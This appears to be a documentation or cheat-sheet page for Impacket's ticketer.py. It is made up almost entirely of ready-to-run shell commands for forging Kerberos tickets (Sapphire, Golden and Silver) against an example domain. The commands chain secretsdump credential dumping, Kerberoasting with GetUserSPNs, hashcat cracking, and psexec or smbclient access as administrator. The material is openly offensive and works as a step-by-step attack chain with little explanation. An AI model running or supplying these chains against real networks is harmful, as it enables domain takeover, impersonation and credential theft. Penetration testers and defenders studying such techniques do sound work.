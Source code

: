 ### Template-Based Ticket Creation
```bash
# Request legitimate ticket and modify it
python3 ticketer.py -request -domain contoso.local -user validuser -password Password123! -domain-sid S-1-5-21-1339291983-1349129144-367733775 -nthash a87f3a337d73085c45f9416be5787d86 targetuser

# Template with both NT hash and AES key
python3 ticketer.py -request -domain contoso.local -user validuser -password Password123! -domain-sid S-1-5-21-1339291983-1349129144-367733775 -nthash a87f3a337d73085c45f9416be5787d86 -aesKey 18e4be92b43c37137228c0ffa8212d04 targetuser
```

### Sapphire Ticket (Advanced Impersonation)
```bash
# Create sapphire ticket for impersonation
python3 ticketer.py -nthash a87f3a337d73085c45f9416be5787d86 -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain contoso.local -impersonate administrator targetuser
```

### Using Created Tickets
```bash
# Export the ticket to environment
export KRB5CCNAME=administrator.ccache

# Use with other Impacket tools
python3 psexec.py -k -no-pass contoso.local/administrator@dc.contoso.local
python3 secretsdump.py -k -no-pass contoso.local/administrator@dc.contoso.local
```

## Attack Chain Integration

### Golden Ticket Attack Chain
```bash
# Step 1: Obtain krbtgt hash via DCSync or secretsdump
python3 secretsdump.py contoso.local/admin:password@dc.contoso.local

# Step 2: Create golden ticket with extracted krbtgt hash
python3 ticketer.py -nthash [krbtgt_hash] -domain-sid S-1-5-21-xxx -domain contoso.local administrator

# Step 3: Use golden ticket for domain access
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass contoso.local/administrator@dc.contoso.local
```

### Silver Ticket Attack Chain
```bash
# Step 1: Obtain service account hash
python3 GetUserSPNs.py contoso.local/user:password -request -outputfile hashes.txt

# Step 2: Crack the service account hash
hashcat -m 13100 hashes.txt wordlist.txt

# Step 3: Create silver ticket for specific service
python3 ticketer.py -nthash [service_hash] -domain-sid S-1-5-21-xxx -domain contoso.local -spn cifs/server.contoso.local administrator

# Step 4: Use silver ticket for service access
export KRB5CCNAME=administrator.ccache
python3 smbclient.py -k -no-pass contoso.local/administrator@server.contoso.local
```

